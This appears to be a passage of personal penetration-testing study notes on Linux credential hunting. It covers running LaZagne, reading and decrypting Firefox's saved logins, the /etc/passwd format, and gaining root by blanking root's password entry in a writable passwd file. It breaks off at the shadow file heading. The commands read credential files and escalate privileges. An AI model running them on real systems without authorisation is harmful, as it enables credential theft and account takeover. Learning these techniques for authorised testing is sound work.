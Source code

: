 LaZange
```shell
sudo python2.7 laZagne.py all
```
### Browsers 
Firefox 
```shell
ls -l .mozilla/firefox/ | grep default 
```

```shell
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```
Decrypt Passwords 
[Firefox decrypt](https://github.com/unode/firefox_decrypt)
```shell
python3.9 firefox_decrypt.py
```

### Passwd, Shadow and Opasswd

Many use different authentication mechanisms. 
The most common is Plugable Authentication Modules. 
	pam_unix.so
	pam_unix2.so
	Located in /usr/lib/x86_x64-linux-gnu/security/ in Debian

pam_unix.so standard module for management uses standardised API calls from system libraries and files to update account information.  Files are read and updated are /etc/passwd and /etc/shadow.

#### #Passwd File

Contains existing user on the system and can be read by all users and services. 
Readable system wide
Each entry identifies a use on the system.

|`cry0l1t3`|`:`|`x`|`:`|`1000`|`:`|`1000`|`:`|`cry0l1t3,,,`|`:`|`/home/cry0l1t3`|`:`|`/bin/bash`|
|---|---|---|---|---|---|---|---|---|---|---|---|---|
|Login name||Password info||UID||GUID||Full name/comments||Home directory||Shell|

Very rare for the hash to be encrypted in password information.
Most commonly stored in /etc/shadow

If the file is writable remove the password entry

```shell
root:x:0:0:root:/root:/bin/bash
```
```shell
root::0:0:root:/root:/bin/bash
```
```shell
su 
```

```shell
sudo cp /etc/passwd /tmp/passwd.bak 
```
#### #Shadow File 
Only contains passwords 
